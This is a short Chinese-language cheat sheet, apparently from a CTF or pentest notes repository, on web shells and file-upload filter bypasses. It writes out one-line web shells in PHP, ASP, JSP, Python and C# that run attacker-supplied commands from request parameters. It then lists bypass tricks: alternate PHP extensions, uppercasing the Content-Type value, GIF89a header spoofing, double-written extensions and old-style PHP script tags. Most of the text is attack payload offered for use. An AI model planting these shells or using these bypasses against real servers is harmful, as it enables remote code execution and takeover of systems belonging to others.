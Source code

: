最简单的php一句话木马：
可以将`POST`改为`REQUEST`，支持通过POST、GET或COOKIE传递参数，提高攻击灵活性
```php
<?php @eval($_POST['flag']) ?>
```

```asp
<%eval request("cmd")%>
```

```jsp
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

```python
#常见于Django, Flask等
import os
os.system(request.form['cmd'])
```

```C#
//常见于ASP.NET
<% System.Diagnostics.Process.Start(Request["cmd"]); %>
```
## 上传过滤
1. 文件类型过滤：常用其他的后缀`php2, php3, php4, php5,pht, phtm, phtml,phps`
2. `multipart/form-data`过滤：该过滤需要在表单中进行文件上传时，就需要使用该格式，意思是他通过表单会对文件格式再进行一次判断，并会在后端进行判断。这种过滤只支持小写字符，因此绕过方法为将抓到的包中的 Content-Type 字段中的 “multipart/form-data” 中**随便一个字母改为大写**。
3. 文件头欺骗漏洞——在一句话木马内容前面加入`GIF89a`，如：GIF89a <%eval request(“xx”)%>` 然后将木马保存为图片的格式，如xxx.jpg，xx.gif文件头欺骗可以用来绕过简单的waf。
   习惯在文件前加上**GIF89a**来绕过PHP getimagesize的检查
4. 正则表达式过滤可使用**双写法**：后缀改为`pphphp`
5. **使用旧式PHP标签**：`<script language="php">`，绕过对`<?`的检测。
   `<script language='php'>@eval($_POST[shell]);</script>`


文件常常存储在：`upload/uploads/up/ups`
